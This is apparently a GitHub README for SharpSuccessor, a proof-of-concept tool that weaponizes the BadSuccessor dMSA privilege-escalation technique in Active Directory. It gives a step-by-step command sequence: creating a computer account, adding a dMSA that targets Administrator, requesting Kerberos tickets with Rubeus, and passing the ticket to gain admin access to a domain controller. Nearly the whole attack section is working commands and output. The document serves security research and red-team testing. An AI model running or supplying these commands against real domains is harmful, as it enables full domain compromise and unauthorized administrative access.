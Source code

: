 # SharpSuccessor

SharpSuccessor is a .NET Proof of Concept (POC) for fully weaponizing Yuval Gordon’s ([@YuG0rd](https://x.com/YuG0rd)) [BadSuccessor](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory) attack from Akamai. A low privilege user with `CreateChild` permissions over any Organizational Unit (OU) in the Active Directory domain can escalate privileges to domain administrator.

From low-privilege user context, first create a computer object with a tool such as [Cable](https://github.com/logangoins/Cable):
```
Cable.exe computer /add /name:attacker_computer /password:P@ssw0rd
```
![image](https://github.com/user-attachments/assets/7c2293bb-bbc3-46dd-bfbb-63b2a59e5766)

Then use SharpSuccessor to add and weaponize the dMSA object:
```
SharpSuccessor.exe add /target:Administrator /path:"ou=test,dc=lab,dc=lan" /computer:attacker_computer$ /name:attacker_dMSA
```
![image](https://github.com/user-attachments/assets/294efe2a-3fe0-496e-89e7-bff7e3ed8e36)

Finally use the previously created computer account to request a ticket as the dMSA. First requesting a TGT for the computer account:

```
Rubeus.exe asktgt /user:attacker_computer$ /password:P@ssw0rd /enctype:aes256 /opsec /nowrap
```
![image](https://github.com/user-attachments/assets/2adf8327-dcbd-4d7b-a781-e2a95946c8fb)

Then use that tgt to impersonate the dMSA account:
```
Rubeus.exe asktgs /targetuser:attacker_dmsa$ /service:krbtgt/lab.lan /opsec /dmsa /nowrap /ptt /ticket:doIF0DCCBcy...
```
![image](https://github.com/user-attachments/assets/7ee8cac1-70d3-40fb-85c3-740b86761ffb)

Now you can request a service ticket with Administrator context for any SPN, including the Domain Controllers for post-exploitation. For example here I will show admin privileges for SMB on the domain controller:

```
Rubeus.exe asktgs /user:attacker_dmsa$ /service:cifs/WIN-RAEAN26UGJ5.lab.lan /opsec /dmsa /nowrap /ptt /ticket:doIF2DCCBdS...
```
![image](https://github.com/user-attachments/assets/f4799c6d-ef21-4fbc-af2d-2fd900545937)

Now that we have the ticket in memory, we can test access:

![image](https://github.com/user-attachments/assets/6838bb98-5b7a-406a-a889-9e9236a3428f)


